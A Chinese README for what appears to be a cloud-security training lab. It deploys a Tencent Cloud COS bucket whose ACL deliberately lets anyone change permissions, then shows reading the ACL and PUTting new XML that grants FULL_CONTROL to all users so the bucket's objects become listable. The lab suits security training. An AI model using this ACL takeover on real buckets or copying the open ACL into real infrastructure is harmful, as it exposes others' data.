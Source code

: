 # 腾讯云 COS Bucket ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建腾讯云 COS Bucket ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法访问的资源修改为可读，从而访问到 COS 服务资源。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的`tencentcloud_secret_id`和`tencentcloud_secret_key`

```shell
vim terraform.tfvars
```

> 在腾讯云控制台的 [API 密钥管理](https://console.cloud.tencent.com/cam/capi)可以创建和查看您的 SecretID 和 SecretKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Bucket ACL 读取和写入权限

## 漏洞利用

尝试遍历 Object，发现访问被拒绝

![img](../../../images/1652347780.png)

尝试读取 Bucket 的 ACL 策略，发现可以读取

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```

![img](../../../images/1652347858.png)

尝试使用 PUT 方法修改 Bucket 的 ACL 策略

原来的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

新的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![img](../../../images/1652348202.png)

再次尝试遍历 Object，发现已经可以遍历到了，说明刚才上传的 ACL 策略生效了，在返回的信息中可以看到 flag

![img](../../../images/1652348264.png)

## 销毁环境

```shell
terraform destroy
```

